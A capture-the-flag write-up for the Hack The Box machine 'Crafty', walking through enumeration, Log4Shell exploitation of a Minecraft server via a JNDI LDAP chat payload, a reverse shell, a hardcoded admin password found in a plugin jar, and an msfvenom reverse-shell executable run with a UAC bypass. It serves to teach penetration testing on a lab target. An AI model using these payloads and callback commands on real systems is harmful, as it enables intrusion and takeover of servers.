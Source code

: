 # HTB - Crafty

### TL;DR
This is a gaming Windows Server 2019 running Minecraft 1.16.5, which is known to be affected by the Log4Shell vulnerability (CVE-2021-44228). There are several POCs in Github which can be used to exploit the Log4Shell vulnerability and get a foothold in the server. The administrator password is found in a `.jar` file in the file system.<br>

### KEYWORDS
Minecraft, Log4Shell, CVE-2021-44228, Java decompiler.

### REFERENCES
https://www.cvedetails.com/cve/CVE-2021-44228/<br>
https://github.com/kozmer/log4j-shell-poc<br>
https://www.youtube.com/watch?v=7qoPDq41xhQ<br>
https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz<br>
https://tlauncher.org/<br>

### ENUMERATION
Launch a port scan with `nmap`
```markdown
> nmap $target -p- --min-rate=5000 -Pn --open --reason 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-11 04:05 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up, received user-set (0.081s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
80/tcp    open  http      syn-ack
25565/tcp open  minecraft syn-ack

Nmap done: 1 IP address (1 host up) scanned in 44.87 seconds
```
Enumerate the open ports.
```markdown
> nmap $target -p80,25565 -sV -sC -Pn -vv 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-11 04:07 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up, received user-set (0.091s latency).
Scanned at 2024-02-11 04:08:00 EST for 15s

PORT      STATE SERVICE   REASON  VERSION
80/tcp    open  http      syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft syn-ack Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 16.07 seconds
```
Update the `/etc/hosts` file and enumerate the site with Firefox. We see information about a Minecraft server running at `play.crafty.htb`. There are no more interaction points with the backend in the website. 

![Untitled000](https://github.com/g1vi/AllTheWriteUps/assets/120142960/f3c78f06-36c8-403c-aad8-8d954aff2230)

In summary, we have found a Minecraft server v1.16.5 running on port 25565.

### USER
Searching for Minecraft 1.16.5 vulnerabilities in the web, we find out that versions from 1.8.8 to 1.18.1 were affected by Log4Shell vulnerability, a critical bug in the Apache log4j java logging library (https://www.cvedetails.com/cve/CVE-2021-44228/)<br>
<br>
If you search in GitHub you will find several POCs for Log4Shell exploitation, and there are also tutorials in Youtube, such as this: https://www.youtube.com/watch?v=7qoPDq41xhQ<br>
<br>
We will use this POC: https://github.com/kozmer/log4j-shell-poc. If you pay attention to documentation, there is an example exploiting the CVE in the Minecraft chat. Note that the `poc.py` cannot be used off-the-self, if you inspect carefully the source code you will see 2 modifications are needed.<br>
<br>
First, the POC is designed to be used in Linux, but since `crafty.htb` is a Windows machine, a first modification is needed to adapt the exploit part to the Windows systems (replace `/etc/sh` with `cmd`.

![Untitled100](https://github.com/g1vi/AllTheWriteUps/assets/120142960/595bc7d5-b4b5-4193-90b8-05d688d1a08f)

Next, according to the author you need to copy your version of Java in the repository root directory. The author provides a link to Oracle but, since registration is required, another one was used: https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz<br>
<br>
Follow the author instructions: unpack the Java package in the repository root folder and rename the directory as `./jdk1.8.0_20`, to match the Java path used in the source code. Alternatively, you can leave the directory named as you want and modify the source code accordingly.<br>
<br>
Once finished, verify Java is successfuly installed.
```markdown
> ./jdk1.8.0_20/bin/java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```
Now run the exploit.
```markdown
> python3 poc.py --userip <your kali ip here> --webport 8000 --lport 1919

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.xxx.xxx:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The POC automatically starts an LDAP server on ports 1389 and also generates a payload called `Exploit.class` which will be served on an HTTP server running on port 8000.<br>

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/744297ee-f20b-4c56-8e29-ab0761d7ceae)

You also need to start a listener on port 1919 (this port can be modified with the `–lport` option).<br>
<br>
The POC provide the payload we need to inject in the Minecraft chat.
```markdown
${jndi:ldap://10.10.xxx.xxx:1389/a}
```
Next step is to join a game in the Minecraft server. For this, download a Minecraft client such as this: https://tlauncher.org/en/download_1/minecraft-1-16-5_12582.html. Choose the version that suits your platform, in this case we will use the `.jar` Linux version available here: https://tlauncher.org/jar<br>
<br>
Unzip and run the client.
```markdown
> java -jar TLauncher-2.895.jar
```
Once the client start, make sure you install the Minecraft version 1.65.5, which is the one that matches the one running in the server.

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/0781dd16-a360-4968-8270-15dbdcea5f40)

Once the installation finishes, click on "Enter the game". In the startup screen click on "Multiplayer" and add a new server `play.crafty.htb`. Join the server and as soon as the game starts press "T" to open the chat and enter the payload.
```markdown
${jndi:ldap://10.10.xxx.xxx:1389/a}
```
When the payload is sent a reverse shell is received on port 1919, it can be used to get the user flag.

### SYSTEM
Start from the user shell and take the opportunity to enumerate the system.
```markdown
> systeminfo

Host Name:                 CRAFTY
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,369 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,729 MB
```
Locate the file `c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar` in the system. Inspect the file and extract the class `/htb/crafty/playercounter/Playercounter.class`. Decompile using whatever method you like, for example, using an online decompiler: https://www.decompiler.com/

![Untitled3](https://github.com/g1vi/AllTheWriteUps/assets/120142960/aba40d7b-3590-47c7-9452-d34e004947eb)

Looks like credential `s67u84zKq8IXw` is used to connect to an internal service running on 27015 for management purposes.<br>
<br>
Generate a payload with `msfvenom`
```markdown
> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.34 lport=9999 -f exe -a x64 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Transfer `shell.exe` and `runascs.exe` (https://github.com/antonioCoco/RunasCs) to the victim and run them.
```markdown
.\runascs administrator s67u84zKq8IXw shell.exe --bypass-uac
```
A reverse shell is received on port 9999.

![Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/03317f4e-1784-4e5a-a522-0029093cf0fd)

You are root.
